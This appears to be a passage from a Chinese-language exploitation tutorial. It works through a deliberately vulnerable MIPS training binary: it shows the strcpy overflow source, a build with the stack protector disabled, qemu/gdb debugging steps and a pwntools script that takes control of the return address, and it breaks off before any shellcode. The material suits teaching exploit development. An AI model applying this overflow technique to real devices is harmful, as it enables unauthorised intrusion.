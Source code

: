 ```c
printf("Usage: stack_bof_01 <argument>\r\n-By b1ack0wl\r\n");
exit(1);
} 


printf("Welcome to the Second BoF exercise! You'll need Shellcode for this! ;)\r\n\r\n"); 
strcpy(buf, argv[1]);

printf("You entered %s \r\n", buf);
printf("Try Again\r\n");

return 0;
}
```
安裝交叉編譯工具
```bash
sudo apt-get update
sudo apt-get install binutils-mipsel-linux-gnu
sudo apt-get install gcc-mipsel-linux-gnu
```
編譯上面的源碼
```bash
mipsel-linux-gnu-gcc -fno-stack-protector stack_bof_02.c -o stack_bof_02
```
程序保護
![image-20201028025116416](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20201028025118.png)
代碼邏輯很簡單，在 strcpy 的地方有一處棧溢出。

> 程序調試
`qemu-mipsel-static -g 1234 -L ./mipsel ./vuln_system  PAYLOAD`
-g 指定調試端口， -L 指定 lib 等文件的目錄，當程序起來之後
`gdb-multiarch stack_bof_02` 運行如下命令，然後在 gdb 裏運行 `target remote 127.0.0.1:1234` 即可掛上調試器
![image-20201028032102193](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20201028032104.png)
> 控制 PC
![image-20201028030936453](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20201028030938.png)
返回地址位於 $sp+532 , buf 位於 $fp+24
即 padding 爲 `pay += b'a'*508`
```python
# padding :532 - 24 = 508
from pwn import *

context.log_level = 'debug'

pay =  b''
pay += b'a'*508
pay += b'b'*4

# with open('payload','wb') as f:
#     f.write(pay)

p = process(['qemu-mipsel-static', '-L', './mipsel', '-g', '1234','./stack_bof_02', pay])
# p = process(['qemu-mipsel-static', '-L', './mipsel', './stack_bof_02'])
pause()
p.interactive()
```
如下圖所示，即可控制 ra 寄存器，進而控制 PC
![image-20201028031118603](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20201028031120.png)
> 查找使用的 gadget 完成 ret2shellcode
由於程序沒有開啓 PIE 等 保護，所以我們可以直接在棧上注入 shellcode，然後控制 PC跳轉到棧上
